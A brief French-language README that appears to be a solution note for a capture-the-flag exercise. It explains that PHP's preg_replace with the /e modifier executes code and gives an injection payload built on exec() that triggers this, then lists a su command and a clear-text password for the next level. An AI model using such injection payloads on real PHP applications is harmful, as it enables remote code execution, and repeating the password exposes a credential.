 # README

## Info

file_get_contents() = Lit tout un fichier dans une chaine
preg_replace() PCRE regex php - option e !! execution du code 

merde [x {${exec(getflag)}}] merde


su - level07
wiok45aaoguiboiki2tuin6ub
